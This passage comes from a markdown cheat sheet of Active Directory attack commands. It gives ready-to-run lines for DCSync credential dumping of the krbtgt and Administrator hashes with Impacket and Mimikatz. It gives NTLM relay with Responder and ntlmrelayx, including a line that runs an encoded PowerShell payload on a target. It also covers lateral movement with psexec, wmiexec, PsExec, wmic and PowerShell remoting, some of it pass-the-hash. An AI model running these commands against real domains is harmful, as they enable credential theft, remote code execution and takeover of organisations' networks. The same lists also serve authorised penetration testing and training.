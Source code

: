 ### **3. DCSync**

#### **Linux:**
```bash
# Impacket
secretsdump.py domain.com/username:password@DC_IP
secretsdump.py -hashes :NTLM_HASH domain.com/username@DC_IP
```

#### **Windows:**
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.com /user:krbtgt
lsadump::dcsync /domain:domain.com /user:Administrator
```

---

## 🌐 **Lateral Movement**

### **1. NTLM Relay**

#### **Linux:**
```bash
# Responder + ntlmrelayx
responder -I eth0 -rdwv
ntlmrelayx.py -tf targets.txt -smb2support

# With specific target
ntlmrelayx.py -t smb://TARGET_IP -smb2support -c "powershell -enc <base64_payload>"
```

### **2. Remote Execution**

#### **Linux:**
```bash
# Impacket
psexec.py domain.com/username:password@TARGET_IP
wmiexec.py domain.com/username:password@TARGET_IP
smbexec.py domain.com/username:password@TARGET_IP
dcomexec.py domain.com/username:password@TARGET_IP

# With hashes
psexec.py -hashes :NTLM_HASH domain.com/username@TARGET_IP
```

#### **Windows:**
```powershell
# PsExec
PsExec.exe \\TARGET_IP -u domain\username -p password cmd

# WMI
wmic /node:TARGET_IP /user:domain\username /password:password process call create "cmd.exe"

# PowerShell Remoting
Enter-PSSession -ComputerName TARGET_IP -Credential domain\username
Invoke-Command -ComputerName TARGET_IP -Credential domain\username -ScriptBlock {whoami}
```

---